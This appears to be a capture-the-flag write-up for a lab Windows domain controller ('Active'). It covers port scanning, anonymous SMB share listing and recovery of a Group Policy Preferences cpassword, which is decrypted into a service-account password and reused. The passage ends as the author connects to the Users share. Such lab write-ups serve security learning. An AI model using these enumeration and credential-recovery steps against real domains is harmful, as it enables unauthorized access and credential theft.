







# Active - Easy Box

## Nmap Results

```
sudo nmap -p- -T4 -sVC -oA nmap/active -vvv 10.129.66.19
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-20 12:23 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:23
Completed NSE at 12:23, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:23
Completed NSE at 12:23, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:23
Completed NSE at 12:23, 0.00s elapsed
Initiating Ping Scan at 12:23
Scanning 10.129.66.19 [4 ports]
Completed Ping Scan at 12:23, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:23
Completed Parallel DNS resolution of 1 host. at 12:23, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 12:23
Scanning 10.129.66.19 [65535 ports]
Discovered open port 139/tcp on 10.129.66.19
Discovered open port 53/tcp on 10.129.66.19
Discovered open port 135/tcp on 10.129.66.19
Discovered open port 445/tcp on 10.129.66.19
Discovered open port 47001/tcp on 10.129.66.19
Increasing send delay for 10.129.66.19 from 0 to 5 due to 523 out of 1306 dropped probes since last increase.
Increasing send delay for 10.129.66.19 from 5 to 10 due to 11 out of 14 dropped probes since last increase.
SYN Stealth Scan Timing: About 4.63% done; ETC: 12:34 (0:10:39 remaining)
SYN Stealth Scan Timing: About 16.00% done; ETC: 12:35 (0:10:04 remaining)
Discovered open port 49155/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 22.35% done; ETC: 12:35 (0:09:26 remaining)
Discovered open port 49166/tcp on 10.129.66.19
Discovered open port 9389/tcp on 10.129.66.19
Discovered open port 49154/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 29.20% done; ETC: 12:34 (0:07:48 remaining)
SYN Stealth Scan Timing: About 30.77% done; ETC: 12:35 (0:08:22 remaining)
SYN Stealth Scan Timing: About 32.38% done; ETC: 12:36 (0:09:01 remaining)
Discovered open port 88/tcp on 10.129.66.19
Discovered open port 593/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 39.60% done; ETC: 12:37 (0:08:20 remaining)
Discovered open port 49158/tcp on 10.129.66.19
Discovered open port 49153/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 44.40% done; ETC: 12:37 (0:07:36 remaining)
Discovered open port 49152/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 51.86% done; ETC: 12:37 (0:06:50 remaining)
Discovered open port 49157/tcp on 10.129.66.19
Discovered open port 464/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 58.37% done; ETC: 12:38 (0:06:07 remaining)
Discovered open port 49162/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 63.17% done; ETC: 12:38 (0:05:21 remaining)
SYN Stealth Scan Timing: About 68.18% done; ETC: 12:37 (0:04:35 remaining)
SYN Stealth Scan Timing: About 73.18% done; ETC: 12:37 (0:03:50 remaining)
SYN Stealth Scan Timing: About 78.03% done; ETC: 12:37 (0:03:07 remaining)
Discovered open port 5722/tcp on 10.129.66.19
Discovered open port 5722/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 83.23% done; ETC: 12:37 (0:02:22 remaining)
Discovered open port 3269/tcp on 10.129.66.19
Discovered open port 389/tcp on 10.129.66.19
SYN Stealth Scan Timing: About 88.36% done; ETC: 12:37 (0:01:38 remaining)
SYN Stealth Scan Timing: About 93.41% done; ETC: 12:37 (0:00:55 remaining)
Discovered open port 49168/tcp on 10.129.66.19
Discovered open port 636/tcp on 10.129.66.19
Discovered open port 3268/tcp on 10.129.66.19
Completed SYN Stealth Scan at 12:37, 849.38s elapsed (65535 total ports)
Initiating Service scan at 12:37
Scanning 23 services on 10.129.66.19
Completed Service scan at 12:38, 60.44s elapsed (23 services on 1 host)
NSE: Script scanning 10.129.66.19.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:38
Completed NSE at 12:38, 8.83s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:38
Completed NSE at 12:38, 2.47s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Nmap scan report for 10.129.66.19
Host is up, received echo-reply ttl 127 (0.11s latency).
Scanned at 2026-09-20 12:23:33 EDT for 922s
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-09-20 16:37:49Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49162/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49166/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49168/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time:
|   date: 2026-09-20T16:38:47
|_  start_date: 2026-09-20T16:20:44
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 56471/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 9212/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 6027/udp): CLEAN (Timeout)
|   Check 4 (port 10401/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 921.42 seconds
           Raw packets sent: 75745 (3.333MB) | Rcvd: 69814 (2.848MB)
```

Since the Nmap scripts revealed that the hostname of the box is `active.htb`, I added it to my `/etc/hosts` to begin with.

```
cat /etc/hosts | grep active.htb
10.129.66.19    active.htb
```

## SMB Enumeration

I first tried to see if `Null Authentication` is enabled on the `SMB` service running on the box.

```
nxc smb 10.129.66.19 -u '' -p ''
SMB         10.129.66.19    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.66.19    445    DC               [+] active.htb\:
```

Turns out, it is enabled indeed. Then, I tried to see if I can list the shares available on the box.

```
nxc smb 10.129.66.19 -u '' -p '' --shares
SMB         10.129.66.19    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.66.19    445    DC               [+] active.htb\: 
SMB         10.129.66.19    445    DC               [*] Enumerated shares
SMB         10.129.66.19    445    DC               Share           Permissions            Remark
SMB         10.129.66.19    445    DC               -----           -----------            ------
SMB         10.129.66.19    445    DC               ADMIN$                                 Remote Admin
SMB         10.129.66.19    445    DC               C$                                     Default share
SMB         10.129.66.19    445    DC               IPC$                                   Remote IPC
SMB         10.129.66.19    445    DC               NETLOGON                               Logon server share 
SMB         10.129.66.19    445    DC               Replication     READ                   
SMB         10.129.66.19    445    DC               SYSVOL                                 Logon server share 
SMB         10.129.66.19    445    DC               Users                                  
```

I have `read` access to the `Replication` share only, which makes that my only starting point. So, I went ahead to take a look at the share. I like to use `impacket-smbclient` to traverse through the shares rather than `smbclient` itself, cause `impacket-smbclient` has a shell-like look which makes me feel like I already have remote access to the box, lol.

```
impacket-smbclient 10.129.66.19 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# use Replication
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 active.htb
# cd active.htb
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 DfsrPrivate
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Policies
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 scripts
# tree .
/active.htb/DfsrPrivate/ConflictAndDeleted
/active.htb/DfsrPrivate/Deleted
/active.htb/DfsrPrivate/Installing
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/USER
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/USER
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
Finished - 28 files and folders
```

One Interesting file that I found was the `GptTmpl.inf`, which is a configuration file used in Group Policy Objects (GPO) within Windows Environments, used specifically for defining security policies for the domain controllers. The issue with that is there are 2 copies of the file:

1. `/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf`
2. `/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf`

I downloaded both of them while also making sure that downloading one does not overwrite the other.

```
ls config-files/
31B-GptTmpl.inf  6AC-GptTmpl.inf
```

I saved both of the `GptTmpl.inf` files by adding the first 3 letters of the 32 characters long policy code as the prefix to make it not so confusing. Another interesting file that I found on the share was the `Groups.xml` present under the `/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/` directory. So, I downloaded that as well.

```
# get /active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
# 
```

```
cat config-files/31B-GptTmpl.inf
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordAge = 1
MaximumPasswordAge = 42
MinimumPasswordLength = 7
PasswordComplexity = 1
PasswordHistorySize = 24
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
[Version]
signature="$CHICAGO$"
Revision=1
```

The `GptTmpl.inf` file which was present in `/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/` directory revealed the password policy for the host machine.

```
cat config-files/6AC-GptTmpl.inf
[Unicode]
Unicode=yes
[Registry Values]
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireSignOrSeal=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableSecuritySignature=4,1
[Privilege Rights]
SeAssignPrimaryTokenPrivilege = *S-1-5-20,*S-1-5-19
SeAuditPrivilege = *S-1-5-20,*S-1-5-19
SeBackupPrivilege = *S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeBatchLogonRight = *S-1-5-32-559,*S-1-5-32-551,*S-1-5-32-544
SeChangeNotifyPrivilege = *S-1-5-32-554,*S-1-5-11,*S-1-5-32-544,*S-1-5-20,*S-1-5-19,*S-1-1-0
SeCreatePagefilePrivilege = *S-1-5-32-544
SeDebugPrivilege = *S-1-5-32-544
SeIncreaseBasePriorityPrivilege = *S-1-5-32-544
SeIncreaseQuotaPrivilege = *S-1-5-32-544,*S-1-5-20,*S-1-5-19
SeInteractiveLogonRight = *S-1-5-32-550,*S-1-5-32-549,*S-1-5-32-548,*S-1-5-32-551,*S-1-5-32-544
SeLoadDriverPrivilege = *S-1-5-32-550,*S-1-5-32-544
SeMachineAccountPrivilege = *S-1-5-11
SeNetworkLogonRight = *S-1-5-32-554,*S-1-5-9,*S-1-5-11,*S-1-5-32-544,*S-1-1-0
SeProfileSingleProcessPrivilege = *S-1-5-32-544
SeRemoteShutdownPrivilege = *S-1-5-32-549,*S-1-5-32-544
SeRestorePrivilege = *S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeSecurityPrivilege = *S-1-5-32-544
SeShutdownPrivilege = *S-1-5-32-550,*S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeSystemEnvironmentPrivilege = *S-1-5-32-544
SeSystemProfilePrivilege = *S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420,*S-1-5-32-544
SeSystemTimePrivilege = *S-1-5-32-549,*S-1-5-32-544,*S-1-5-19
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
SeEnableDelegationPrivilege = *S-1-5-32-544
[Version]
signature="$CHICAGO$"
Revision=1
```

While the `GptTmpl.inf` file which was present in `/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/` directory had the information about the `Group Privileges` on the box.

```
cat Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

However, the file `/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml` revealed the password for the user `active.htb\SVC_TGS`, which can be found in the `cpassword` field of the XML file. Since I found the password in an encrypted format, I would still need to decrypt it. I went to [CrackStation](https://crackstation.net) to decrypt the password, but didn't get anything.



After not getting anything out of it, I used another tool called `gpp-decrypt` which is used to decrypt `Group Policy Preferences` to see if it can decrypt the encrypted password, which it should.

```
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
GPPstillStandingStrong2k18
```

Now that I have both, the username, which is `svc_tgs`, & the decrpted password I quickly added them to my usual `creds.txt` file just to take a note.

```
cat creds.txt
svc_tgs:GPPstillStandingStrong2k18
```

Now, I tried to see if there are any other shares which I can access using the credentials I have found.

```
nxc smb active.htb -u svc_tgs -p 'GPPstillStandingStrong2k18'
SMB         10.129.66.19    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.66.19    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18
nxc smb active.htb -u svc_tgs -p 'GPPstillStandingStrong2k18' --shares
SMB         10.129.66.19    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.66.19    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18
SMB         10.129.66.19    445    DC               [*] Enumerated shares
SMB         10.129.66.19    445    DC               Share           Permissions            Remark
SMB         10.129.66.19    445    DC               -----           -----------            ------
SMB         10.129.66.19    445    DC               ADMIN$                                 Remote Admin
SMB         10.129.66.19    445    DC               C$                                     Default share
SMB         10.129.66.19    445    DC               IPC$                                   Remote IPC
SMB         10.129.66.19    445    DC               NETLOGON        READ                   Logon server share
SMB         10.129.66.19    445    DC               Replication     READ
SMB         10.129.66.19    445    DC               SYSVOL          READ                   Logon server share
SMB         10.129.66.19    445    DC               Users           READ
```

Turns out the user `svc_tgs` has `READ` access to the `Users` share, along with other shares which are considered default shares. I went ahead to take a look at the `Users` share to see what's inside.

```
impacket-smbclient svc_tgs@active.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password:
Type help for list of commands
